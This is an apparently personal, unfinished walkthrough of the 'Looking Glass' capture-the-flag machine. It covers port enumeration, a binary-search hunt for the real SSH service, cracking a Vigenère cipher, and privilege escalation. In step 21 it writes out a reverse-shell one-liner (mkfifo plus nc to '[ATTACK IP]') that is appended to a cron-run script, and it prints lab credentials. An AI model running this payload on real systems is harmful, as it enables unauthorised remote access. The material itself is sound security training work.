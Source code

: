 WIP
> Climb through the Looking Glass and capture the flags.
#### Steps
1. I started with a basic nmap scan `nmap -sV IP -v` and discovered 80 open ports
```shell
9575/tcp  open  ssh        Dropbear sshd (protocol 2.0)
9593/tcp  open  ssh        Dropbear sshd (protocol 2.0)
9594/tcp  open  ssh        Dropbear sshd (protocol 2.0)
9595/tcp  open  ssh        Dropbear sshd (protocol 2.0)
9618/tcp  open  ssh        Dropbear sshd (protocol 2.0)
9666/tcp  open  ssh        Dropbear sshd (protocol 2.0)
9876/tcp  open  ssh        Dropbear sshd (protocol 2.0)
9877/tcp  open  ssh        Dropbear sshd (protocol 2.0)
9878/tcp  open  ssh        Dropbear sshd (protocol 2.0)
...
```
2. Most were running `ssh`, but a few were running `jetdirect`, which is a network protocol for the HP JetDirect printer
```shell
9100/tcp  open  jetdirect?
9101/tcp  open  jetdirect?
9102/tcp  open  jetdirect?
9103/tcp  open  jetdirect?
```
3. However, after connecting to all of them with `netcat` I foud that they also appeared to be running ssh (or it's a front? who knows)
```shell
└─$ nc 10.10.79.42 9103
SSH-2.0-dropbear
^C
```
4. At this point i decided to look at the hint
> O(log n) A looking glass is a mirror. <br>
5. I found an explanation for O(log n) [here](https://stackoverflow.com/questions/2307283/what-does-olog-n-mean-exactly)
```
O(log n): Given a person's name, find the phone number by picking a random point about halfway through the part of the book you
haven't searched yet, then checking to see whether the person's name is at that point. Then repeat the process about halfway
through the part of the book where the person's name lies. (This is a binary search for a person's name.)
```
6. Which essentially says that one port is not like the others, and we use this algorithm to figure out which one to pursue
7. To enumerate further, I tried connecting to ssh directly for a couple ports, since it only took ssh-rsa, I had to modify my usual command
```shell
└─$ ssh 10.10.79.42 -p 9099 
Unable to negotiate with 10.10.79.42 port 9099: no matching host key type found. Their offer: ssh-rsa
                                                                                                                                                            

└─$ ssh 10.10.79.42 -p 9099 -oHostKeyAlgorithms=+ssh-rsa
The authenticity of host '[10.10.79.42]:9099 ([10.10.79.42]:9099)' can't be established.
RSA key fingerprint is SHA256:iMwNI8HsNKoZQ7O0IFs1Qt8cf0ZDq2uI8dIK97XGPj0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.79.42]:9099' (RSA) to the list of known hosts.
Lower
Connection to 10.10.79.42 closed.
```
8. Note the **lower** undeneath the known hosts message
9. Because of the mirroring hint, lower means higher
10. For example, it it says 12000 higher and 11000 lower, the port is between those two, so following the algorithm you check 11500 next
11. After wayyy too many tries, I finally found the correct port. *Note that non standard ports are used as well, so you have to check basically all of them*
```shell
└─$ ssh 10.10.79.42 -p 11659 -oHostKeyAlgorithms=+ssh-rsa
The authenticity of host '[10.10.79.42]:11659 ([10.10.79.42]:11659)' can't be established.
RSA key fingerprint is SHA256:iMwNI8HsNKoZQ7O0IFs1Qt8cf0ZDq2uI8dIK97XGPj0.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:19: [hashed name]
    ~/.ssh/known_hosts:20: [hashed name]
    ~/.ssh/known_hosts:21: [hashed name]
    ~/.ssh/known_hosts:22: [hashed name]
    ~/.ssh/known_hosts:23: [hashed name]
    ~/.ssh/known_hosts:24: [hashed name]
    ~/.ssh/known_hosts:25: [hashed name]
    ~/.ssh/known_hosts:26: [hashed name]
    (16 additional names omitted)
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.79.42]:11659' (RSA) to the list of known hosts.
You've found the real service.
Solve the challenge to get access to the box
Jabberwocky
'Mdes mgplmmz, cvs alv lsmtsn aowil
Fqs ncix hrd rxtbmi bp bwl arul;
Elw bpmtc pgzt alv uvvordcet,
Egf bwl qffl vaewz ovxztiql.

[ ETC ]

Enter Secret:
```
12. Looking at the text I assume it some type of alphabet encoding
13. I tried vigenere with jabberwocky as the key, but that didn't work. It also didn't work with any common rotation methods
14. It really did seem like vigenere because of how the words were structured, so I tried to bruteforce the key with [this site](https://www.boxentriq.com/code-breaking/vigenere-cipher?source=post_page-----a72c7dcc5250--------------------------------) instead
15. The first run didn't work so I increased the max key length and ran it again
```
key: thealphabetcipher
text:
'Twas brillig, and the slithy toves
Did gyre and gimble in the wabe;
All mimsy were the borogoves,
And the mome raths outgrabe.

'Beware the Jabberwock, my son!
The jaws that bite, the claws that catch!
Beware the Jubjub bird, and shun
The frumious Bandersnatch!'

He took his vorpal sword in hand:
Long time the manxome foe he sought--
So rested he by the Tumtum tree,
And stood awhile in thought.

And as in uffish thought he stood,
The Jabberwock, with eyes of flame,
Came whiffling through the tulgey wood,
And burbled as it came!

One, two! One, two! And through and through
The vorpal blade went snicker-snack!
He left it dead, and with its head
He went galumphing back.

'And hast thou slain the Jabberwock?
Come to my arms, my beamish boy!
O frabjous day! Callooh! Callay!'
He chortled in his joy.

'Twas brillig, and the slithy toves
Did gyre and gimble in the wabe;
All mimsy were the borogoves,
And the mome raths outgrabe.
Your secret is bewareTheJabberwock
```
16. After inputting the secret, we get the creds `jabberwock:QuiteNurseChortledRidiculous`
17. I connected to the default ssh port `ssh jabberwock@10.10.79.42 -oHostKeyAlgorithms=+ssh-rsa `
18. Then I catted `user.txt` which was backwards so I reversed it with `echo '[contents]' | rev`
19. Also in the jabberwock home direcotory was a poem and a shell script to output the poem
20. Time to escalate to root. I started by running `sudo -l` to check privs
```shell
jabberwock@looking-glass:~$ sudo -l
Matching Defaults entries for jabberwock on looking-glass:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jabberwock may run the following commands on looking-glass:
    (root) NOPASSWD: /sbin/reboot
```
21. Going back to the poem shell script from earlier, it is run as a cronjob by tweedledum and is run on reboot. If we modify that to contain a payload, we can elevate to tweedledum
```shell
# set up the rev shell
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc [ATTACK IP] 7777 >/tmp/f' >> twasBrillig.sh

# set up a listener
nc -lvnp 7777

# reboot
sudo /sbin/reboot
```
22. On tweedledums shell, there is a text file `humptydumpty.txt` that contains hex code. Decoding it we find a password `zyxwvutsrqponmlk`, so we su to humptydumpty with this password
23. At this poitn I went back into the `/home` directory to check just how many users are left to escalate through
24. I saw that the `jabberwock` directory had very strange permissions
```shell
drwxrwxrwx 5 jabberwock jabberwock  4096 Jul  3 03:19 jabberwock
```
25. Alice is similar in that files are executable by everyone, but not writeable
26. (imma be real at this point the machine shut me out and I realllllllly don't want to search for the port again so I'll be back maybe)
